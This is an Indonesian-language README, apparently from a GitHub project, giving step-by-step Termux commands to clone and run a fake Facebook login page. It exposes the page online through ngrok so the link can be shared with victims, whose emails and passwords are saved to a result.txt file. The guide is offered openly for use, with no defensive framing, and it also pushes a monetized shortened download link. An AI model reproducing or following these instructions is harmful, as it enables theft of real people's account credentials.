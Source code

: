 ## Phising sederhana menggunakan Termux di Android

   ```bash
   pkg update && pkg upgrade
   pkg install git
   git clone https://github.com/sandhemongss/simple-fb-phising.git
   cd simple-fb-phising
   pkg install nodejs
   npm start
   
   ./ngrok http 5000
   ```
   
## Langkah-langkah lengkap

__Install Termux__ :
Download dan install Termux di Playstore atau F-droid.

Jika ingin menggunakan Termux seperti yang saya gunakan [Download Disini.](https://moneyblink.com/xplljU7Mx7)

Buka Termux dan update package `pkg update && pkg upgrade`.

__Install paket yang di butuhkan :__
* `pkg install nodejs`
* `pkg install git`

__Selanjutnya ikuti langkah-langkah berikut :__
* `git clone https://github.com/sandhemongss/simple-fb-phising.git`
* `cd simple-fb-phising`
* `npm start`

- Lalu buka Browser/Chrome dan ketik URL `http://localhost:5000` jika semua langkah di atas benar seharusnya halaman login palsu Facebook sudah muncul di server lokal kita. Selanjutnya tinggal bagaimana server lokal kita bisa di akses secara online oleh orang lain, disini saya contohkan menggunakan Ngrok.

__Install Ngrok :__
* ```pkg update && pkg upgrade```
* `pkg install wget`
* `wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-arm.zip`
* `unzip ngrok-stable-linux-arm.zip`

__Autentikasi Ngrok:__
- Setelah Ngrok terinstall, kamu perlu menghubungkan akun Ngrok kamu dengan menjalankan token autentikasi. Kamu bisa mendapatkan token dari [dashboard Ngrok](https://ngrok.com/) setelah mendaftar.

- Saya anggap Ngrok sudah berhasil di install, jika sudah buka Termux lagi dan jalankan perintah `./ngrok http 5000`. Ngrok akan menampilkan URL publik yang bisa diakses secara online, misalnya `https://6ehhdj3773u3ujrn.ngrok.io` Salin URL ini lalu share ENJOYY.

- Jika ada yang login melalui link yang kamu bagikan, Email dan Password akan muncul di dalam file `result.txt` yang berada di dalam folder chace.